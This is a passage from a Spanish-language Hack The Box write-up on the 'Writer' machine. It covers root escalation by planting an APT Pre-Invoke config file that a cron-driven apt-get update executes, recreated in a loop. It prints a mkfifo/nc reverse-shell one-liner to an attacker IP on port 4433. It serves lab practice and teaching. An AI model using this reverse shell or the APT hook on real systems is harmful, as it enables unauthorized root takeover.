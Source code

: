 Borra todo lo que se ha creado en las últimas **24 horas** ([-mtime](https://stackoverflow.com/questions/25599094/explaining-the-find-mtime-command)), así que si creamos nuestro objeto de configuración, claramente será borrado, esto lo podemos bypassear haciendo un bucle, donde en cada segundo cree el archivo de configuración, entonces el `find` llegara a borrarlo peeeeero inmediatamente el bucle lo creara y `apt-get update` lo e j e c u t a r á (:

Asíííííí queeeeeeeee, busquemos en internet como jugar realmente con estoooooooooaosoOOoasdjflkajsdlñkgjlakhs

* [Linux for Pentester: APT Privilege Escalation](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/).

En ese post hay varias maneras, pero la que nos sirve a nosotros es la que explota una tarea **cron** (que eso es lo que tenemos nosotros, una tarea programada), la explotación es muuuuuuuy sencilla, únicamente creamos un archivo de configuración que tenga el comando a ejecutar, básicamente una línea (:

Por ejemplo usando la propia del post (que es para obtener una reverse shell con `nc` viejito) el archivo se llamaría `pwn` y contendría:

```bash
echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 4433 >/tmp/f"};' > pwn
```

Pues creémoslo, nos ponemos en escucha por el puerto `4433` y esperamos a que la tarea cron sea ejecutada, borrara el objeto `pwn`, peeeero con ayuda de nuestro bucle lo volverá a crear y posteriormente el sistema actualizara los paquetes, llegando así al nuestro (:

```bash
john@writer:/etc/apt/apt.conf.d$ while true; do echo 'apt::Update::Pre-Invoke {"rm ... payload ... /tmp/f"};' > pwn; sleep 1; done
```

Esperamos un rato yyyyyyyyyyyyyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361bash_rootRevSH.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

YYYYY TAMOSSS DENTROOO COMO `ROOOOOOOOT` (: Veamos las flags...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361flags.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

...

Una máquina bastante interesante, la intrusión con el **LFI** mediante un **SQLi**, fue mooooooy brutal. La parte de **APT** también da mucho que pensar (que miedito).

Writeup realmente largo, pero que me divertí bastante al hacer. Espero les haya ayudado en algo y como siempre... ¡A seguir rompiendo deeeeee todoooooooo!